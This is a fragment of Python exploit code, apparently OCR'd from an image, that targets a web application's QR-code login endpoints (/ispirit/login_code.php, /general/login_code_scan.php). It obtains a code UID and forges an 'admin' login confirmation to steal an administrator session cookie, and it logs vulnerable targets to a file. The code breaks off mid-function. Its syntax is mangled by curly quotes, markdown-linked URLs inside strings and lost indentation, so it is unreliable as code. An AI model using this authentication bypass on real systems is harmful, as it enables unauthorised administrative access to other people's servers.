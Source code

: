 ```

“Content-Type”: “application/x-www-form-urlencoded”,

“Referer”: “[https://google.com](https://google.com)”,

}

proxy = {       # debug

“http”: “[http://127.0.0.1:8080](http://127.0.0.1:8080)”,

“https”: “[http://127.0.0.1:8080](http://127.0.0.1:8080)”

}

def wirte_targets(vurl, filename):

with open(filename, “a+”) as f:

f.write(vurl + “\n”)

return vurl

def get_cookie(url):

checkHeader = {

“User-Agent”: “Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36”,

“Content-Type”: “application/x-www-form-urlencoded”,

“Referer”: “[https://google.com](https://google.com)”,

}

try:

req1 = requests.get(url + “/ispirit/login_code.php”, headers=checkHeader, verify=False, timeout=25)

if req1.status_code == 200 and “codeuid” in req1.text:

codeUid = json.loads(req1.text)[“codeuid”]

else:

req1 = requests.get(url + “/general/login_code.php”, headers=checkHeader, verify=False, timeout=25)

status = req1.text.find(’{“status”:1’)

if req1.status_code == 200 and status != -1:

codeUid = json.loads(req1.text[status:])[“code_uid”]

else:

return “123”

req2 = requests.post(url+ “/general/login_code_scan.php”, data={“codeuid”: codeUid, “uid”: int(1), “source”: “pc”, “type”: “confirm”, “username”: “admin”}, headers=checkHeader, verify=False, timeout=25)

if req2.status_code == 200 and json.loads(req2.text)[“status”] == “1”:
```